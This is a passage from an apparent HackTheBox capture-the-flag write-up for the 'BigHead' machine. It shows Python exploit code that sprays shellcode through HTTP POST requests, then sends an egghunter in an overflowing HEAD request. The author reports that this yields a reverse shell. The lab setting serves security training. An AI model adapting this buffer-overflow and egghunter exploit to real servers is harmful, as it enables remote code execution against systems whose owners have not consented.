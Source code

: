 ```
def send_shellcode(N,host,port,egg,shellcode):
	print "\033[32m [*] Sending Shellcode"
	for i in range(0,16):
		s = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)
		s.connect((host,port))
		s.send("POST / HTTP/1.1\r\n")
		s.send("Host: dev.bighead.htb\r\n")
		s.send("Content-Length: %s\r\n"%len(shellcode))
		s.send("\r\n")
		s.send(shellcode+"\r\n")
		s.send("\r\n")
		print '\033[34m' + '[' + str(N) + '] ' + re.sub(r"\s"," ",s.recv(12))
		s.close()
		N += 1
	print "\033[32m [*] Done"

def send_egghunter(host,port,egghunter):
	print "\033[32m [*] Sending EggHunter"
	s = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)
	s.connect((host,port))
	s.settimeout(None)
	s.send("HEAD /" + ("A"*72) + "f0125062" + egghunter + " HTTP/1.1\r\n")
	s.send("Host: dev.bighead.htb\r\n")
	s.send("\r\n")
	print '\033[34m' + re.sub(r"\s"," ",s.recv(12))
	s.close()
	print "\033[32m [*] Done"

send_shellcode(N,host,port,egg,shellcode)
send_egghunter(host,port,egghunter)
```
<br> Now it's show time, Let's test the exploit :
![](/images/hackthebox/bighead/83.png)
<br> Perfectly working ! we got a reverse shell.
<br>
<hr>
## Enumeration, Enumeration, Enumeration ...